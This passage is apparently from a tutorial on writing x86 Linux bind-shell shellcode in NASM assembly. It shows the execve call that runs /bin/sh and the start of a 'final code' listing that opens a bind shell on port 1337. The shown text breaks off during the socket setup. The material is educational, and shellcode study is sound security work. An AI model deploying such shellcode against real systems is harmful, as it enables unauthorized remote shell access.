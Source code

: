 We will use `execv` which requires two arguments, the file to be executed and additional arguments for the file being executed. We don't need any additional arguments, therefore we only pass `/bin/sh`, as can be seen below:

```nasm
    ; --------------------
    ; # Setup execv
    xor edx, edx
    push edx
    
    ; push //bin/sh onto the stack
    push 0x68732f6e
    push 0x69622f2f  

    ; Set address of esp to ebx, which points
    ; to //bin/sh
    mov ebx, esp
    
    xor ecx, ecx
    xor eax, eax
    mov al, 0xb      ; execv syscall
    int 0x80
```

### Final code

Now we should have something that looks like this:

```nasm
;---------------------------------
;
; Author: @dubs3c
; 
; Purpose:
; Start a bind shell on port 1337
; On connection, execute /bin/sh
;
;----------------------------------

global _start

section .text
_start:

    ; zero out registers
    xor eax, eax
    xor ebx, ebx
    xor edx, edx

    ; -------------------------------------
    ; # Setup socket
    
    ; socketcall()
    mov al, 0x66     ; __NR_socketcall 102
    mov bl, 0x1      ; SYS_SOCKET

    ; # Setup socket
    ; Resulting file descriptor is saved to eax
    push edx
    push 0x1
    push 0x2
    mov ecx, esp     ; Arguments are located top of the stack
    int 0x80         ; Tell the kernel it's time to boogie
    mov edi, eax     ; $eax contains the file descriptor created by socket(), store it in $edi for now
```